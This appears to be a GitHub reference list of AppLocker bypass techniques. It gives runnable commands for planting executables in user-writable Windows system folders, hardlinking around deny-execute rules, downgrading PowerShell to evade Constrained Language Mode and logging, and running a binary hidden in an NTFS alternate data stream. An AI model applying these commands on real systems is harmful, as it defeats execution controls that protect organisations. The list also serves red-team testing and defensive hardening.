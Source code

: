 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\SysWOW64\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\SysWOW64\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

If you can place a file or folder into the path you become the owner of that object and you can change the ACL either in GUI or using ICALS. That includes adding Execute rights and more.
If deny execute is inherit you can either disable inheritance or you can use hardlink to a binary file in another folder using one of these commands:
```
fsutil hardlink create c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 

mklink /h c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 
```


You can check the for additional paths by running accesschk from sysinternals and supplying these commands:
```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

## User writeable files
There are cases where files are writeable by the user and can be used to bypass AppLocker. One such known case is 3 files under C:\windows\system32\AppLocker called:

* AppCache.dat
* AppCache.dat.LOG1
* AppCache.dat.LOG2

These files are writeable by the first user that logs on to the computer after AppLocker has been deployed to the machine. More details here: 

* https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/
   
## PowerShell version 2

```
Powershell -version 2
```
Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features. 
   
   
    
## Visual Studio Tools for Office - .VSTO files

```
evilfile.vsto
```

You need to build a solution using Visual Studio Tools for Office. 
User needs to confirm installation after executing. 

* https://bohops.com/2018/01/31/vsto-the-payload-installer-that-probably-defeats-your-application-whitelisting-rules/
      
     
     
## NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
This means you can pipe data to a stream and execute it using many of the different methods:
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Example on adding binary to a writable file under program files (using ADS):
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

```

    
